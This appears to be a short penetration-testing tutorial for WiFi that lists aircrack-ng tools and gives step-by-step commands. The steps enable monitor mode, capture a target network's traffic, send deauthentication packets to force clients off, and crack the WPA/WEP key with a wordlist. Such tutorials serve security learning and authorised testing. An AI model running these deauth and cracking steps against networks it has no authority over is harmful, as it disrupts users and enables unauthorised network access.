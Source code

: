 Penetration Testing - WiFi

OS = Kali Linux Live Everything > You may download it from https://kali.org
Tools - aircrack-ng

Hardwares - Atheros 9721 or ALFA Model AWUS036NH
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter (Important! It should support "Monitor Mode" otherwise it will not work)

Tool	Purpose	Example Command
airmon-ng	      Enable monitor mode	        sudo airmon-ng start wlan0
airodump-ng	    Capture network traffic	    sudo airodump-ng -c 6 wlan0mon
aireplay-ng	    Inject/deauth packets	      sudo aireplay-ng -0 1 ...
aircrack-ng	    Crack WPA/WEP keys	        sudo aircrack-ng -w wordlist.lst ...


Kali Linux Commands:

1. ifconfig to check network interfaces
2. iwconfig to check wireless interfaces
 By default the wireless interface is in MANAGED MODE. 
3. airmon-ng stop wlan0 (if the interface is wlan0)
4. airmon-ng start wlan0 ( from stopping to start I will be gone into monitoring mode)
5. airodump-ng --bssid <BSSID> --channel <CHANNEL> -w <ESSID> wlan0 (or if its wlan0mon)
6. Open another terminal or terminal tab and then enter the following command
7. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0
8. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap

